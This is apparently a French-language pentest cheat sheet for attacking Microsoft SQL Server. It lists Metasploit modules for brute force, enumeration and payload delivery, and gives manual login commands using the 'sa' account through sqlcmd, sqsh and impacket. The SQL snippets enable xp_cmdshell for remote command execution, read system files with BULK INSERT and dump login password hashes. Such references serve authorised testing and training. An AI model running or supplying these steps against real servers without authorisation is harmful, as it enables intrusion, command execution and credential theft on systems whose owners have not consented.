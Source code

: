 ### Modules Metasploit MSSQL
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/mssql/mssql_login` | Brute force MSSQL | `use auxiliary/scanner/mssql/mssql_login` |
| `auxiliary/admin/mssql/mssql_enum` | Énumération MSSQL | `use auxiliary/admin/mssql/mssql_enum` |
| `auxiliary/admin/mssql/mssql_exec` | Exécution commandes | `use auxiliary/admin/mssql/mssql_exec` |
| `auxiliary/admin/mssql/mssql_sql` | Exécution SQL | `use auxiliary/admin/mssql/mssql_sql` |
| `exploit/windows/mssql/mssql_payload` | Payload MSSQL | `use exploit/windows/mssql/mssql_payload` |

### Connexion manuelle MSSQL
```bash
# Avec sqlcmd (Windows)
sqlcmd -S target -U sa -P password

# Avec sqsh (Linux)
sqsh -S target -U sa -P password

# Avec impacket mssqlclient
mssqlclient.py sa:password@target
mssqlclient.py DOMAIN/user:password@target
```

### Commandes MSSQL essentielles
```sql
-- Informations système
SELECT @@version;
SELECT SUSER_NAME();
SELECT DB_NAME();

-- Énumération
SELECT name FROM sys.databases;
SELECT name FROM sys.tables;
SELECT name FROM sys.server_principals WHERE type = 'S';

-- xp_cmdshell pour RCE
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'whoami';

-- Lecture de fichiers
BULK INSERT temp FROM 'C:\windows\system32\drivers\etc\hosts';

-- Hashes utilisateurs
SELECT name, password_hash FROM sys.sql_logins;
```

---